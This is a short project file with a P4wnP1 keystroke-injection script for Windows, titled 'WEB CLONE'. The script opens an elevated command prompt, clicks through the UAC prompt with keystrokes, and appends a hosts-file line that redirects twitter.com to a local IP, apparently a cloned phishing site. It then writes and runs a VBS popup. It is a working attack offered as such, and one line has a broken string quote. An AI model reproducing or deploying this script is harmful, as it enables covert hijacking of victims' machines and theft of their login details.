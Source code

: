# WEB CLONE
This script has been written in javascript adapted to P4wnP1 language in order to be ran in a Windows desktop environment

# Script
```js
layout('es')                    // Spanish keyboard layout
typingSpeed(100,150)    // Wait 100ms between key strokes + an additional random value between 0ms and 150ms (natural)

// Author:ernest and isaac
press("GUI r")
delay(100)
type("cmd.exe")
delay(100)
press("CONTROL SHIFT ENTER")
delay(100)
press("GUI TAB")
delay(100)
press("GUI TAB")
delay(100)
press("RIGHT_ARROW")
delay(100)
press("LEFT_ARROW")
delay(100)
press("ENTER")
delay(100)
press("ENTER")
type("ECHO 172.16.0.1 TWITTER.COM >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS")
delay(100)
press("ENTER")
delay(100)
type("(echo MsgBox \"Line 1\" ^& vbCrLf ^& \"Line 2\",262192, \"Title\")> File.vbs")
delay(10)
press("ENTER")
delay(10)
type("start File.vbs")
delay(10)
press("ENTER)
delay(10)
press("ALT TAB")
type("exit")
delay(100)
press("ENTER")
```
